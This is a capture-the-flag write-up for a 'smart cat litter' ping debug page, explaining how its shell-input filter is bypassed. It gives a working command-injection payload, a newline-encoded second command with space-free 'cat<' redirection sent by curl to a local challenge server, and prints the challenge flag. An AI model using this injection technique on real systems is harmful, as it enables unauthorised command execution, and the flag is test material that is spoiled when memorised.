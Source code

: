 # Description
Damn it, that stupid smart cat litter is broken again
Now only the debug interface is available here and this stupid thing only permits one ping to be sent!
I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me!
FYI No need to bruteforce anything there. If you do you'll be banned permanently.

We suggest to use "curl" for communicating with the host. 


Start the server with:
docker-compose up

## Solution
* after a couple tries it becomes obvious that the input is passed to a shell but is more or less sanitized
* `%0a` (=> `\n`) isn't prohibited
* ` ` (space) is tho
* we can run `ls` in pwd but we can't check subfolders
* `find` to the rescue (if called without parameters it recursively lists directory starting from pwd)
* looks like the flag is in `./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`
* we can't just `cat` it
* after some quick googling we should be able to do `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

## Flag
```
INS{warm_kitty_smelly_kitty_flush_flush_flush}
```
obtained by running `curl -s 'http://localhost:8090/index.cgi' -X POST --data-raw "dest=%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag" | xidel -se "/html/body/pre" -`